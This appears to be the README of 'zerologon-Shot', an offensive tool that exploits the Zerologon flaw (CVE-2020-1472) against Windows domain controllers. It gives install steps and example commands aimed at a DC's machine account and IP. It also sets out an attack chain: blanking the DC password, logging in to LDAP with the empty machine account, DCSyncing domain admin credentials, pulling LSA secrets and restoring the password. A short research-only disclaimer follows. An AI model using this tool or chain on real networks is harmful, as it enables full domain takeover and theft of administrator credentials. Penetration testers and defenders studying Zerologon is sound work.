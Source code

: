 <a name="readme-top"></a>

# zerologon-Shot
Zerologon exploit with restore DC password automatically

#### Table of Contents
<ol>
<li>
  <a href="#getting-started">Getting Started</a>
  <ul>
    <li><a href="#installation">Installation</a></li>
  </ul>
</li>
<li><a href="#usage">Usage</a></li>
<li><a href="#screenshots">Screenshots</a></li>
<li><a href="#how-it-works">How it works?</a></li>
<li><a href="#disclaimer">Disclaimer</a></li>
<li><a href="#references">References</a></li>
</ol>

## Getting Started

### Installation

_Only need latest version of Impacket_

1. Clone the impacket repository
   ```sh
   git clone https://github.com/fortra/impacket
   ```
2. Install imapcket
   ```sh
   cd imapcket && sudo pip3 install .
   ```
3. Enjoy it :)
   ```sh
   git clone https://github.com/XiaoliChan/zerologon-Shot.git
   ```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Usage
```
python3 zerologon-Shot.py domain/'dc_name$'@ip_addr

E.g.

python3 zerologon-Shot.py xiaoli-2008.com/'WIN-D6SJTQG7I0K$'@192.168.85.210
python3 zerologon-Shot.py xiaoli-2008.com/'WIN-D6SJTQG7I0K$'@192.168.85.210 -dc-ip 192.168.85.210
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Screenshots
- #### _Enter to win!!!_
![image](https://github.com/XiaoliChan/zerologon-Shot/assets/30458572/816959b8-0e09-4d95-a6d4-b9c2e38d418a)

![image](https://github.com/XiaoliChan/zerologon-Shot/assets/30458572/719d7130-2f6a-4c59-9cc4-29a4b42bdbb2)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## How it works?
- First: use zerologon exploit to attack DC (after the exploit is finished, the DC password now is cleared).
- Second: authenticate into LDAP with DC computer account (password is blank) to get domain admins.
- Third: retrieve all domain admins credentials with dcsync.
- Fourth: use the domain admin's credential to retrieve DC LSA secrets to get "plain_password_hex".
- Last: restore DC password with "plain_password_hex" by domain admin.
<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Disclaimer
The spirit of this Open Source initiative is to help security researchers, and the community, speed up research and educational activities related to the implementation of networking protocols and stacks.

The information in this repository is for research and educational purposes and not meant to be used in production environments and/or as part of commercial products.

If you desire to use this code or some part of it for your own uses, we recommend applying proper security development life cycle and secure coding practices, as well as generate and track the respective indicators of compromise according to your needs.
<p align="right">(<a href="#readme-top">back to top</a>)</p>

## References
* [impacket](https://github.com/fortra/impacket/)
* [dirkjanm's CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [A different way of abusing Zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
<p align="right">(<a href="#readme-top">back to top</a>)</p>
